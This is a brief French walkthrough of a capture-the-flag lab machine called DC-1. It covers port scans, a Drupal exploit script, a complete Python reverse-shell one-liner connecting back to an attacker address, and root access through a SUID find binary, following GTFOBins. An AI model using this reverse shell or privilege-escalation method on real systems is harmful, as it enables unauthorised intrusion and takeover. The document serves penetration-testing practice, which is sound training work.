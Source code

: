 # DC-1

    sudo nmap -A -p1-10000 192.168.214.193
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.214.193 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.214.193

Scans classiques.

    whatweb http://192.168.214.193

Le site utilise Drupal, j'ai immédiatement testé le même déroulé que sur Lampiao et cela a marché, j'ai déroulé cette VM en moins de cinq minutes.

    ruby  Drupal.rb http://192.168.214.193
    ...
    DC-1>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.230",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
    ...
    ls /home
    cat /home/local.txt

Pas besoin de LinPEAS cette fois, la commande **"find"** m'a sauté aux yeux dans les résultats et j'ai juste eu à utiliser la commande habituelle pour l'élévation de privilèges, mais en retirant l'option "-p" qui n'était pas reconnue. 

Voir : https://gtfobins.github.io/gtfobins/find/#suid

    find / -perm /4000 2>/dev/null
    find . -exec /bin/sh \; -quit
    ls /root
    cat /root/proof.txt

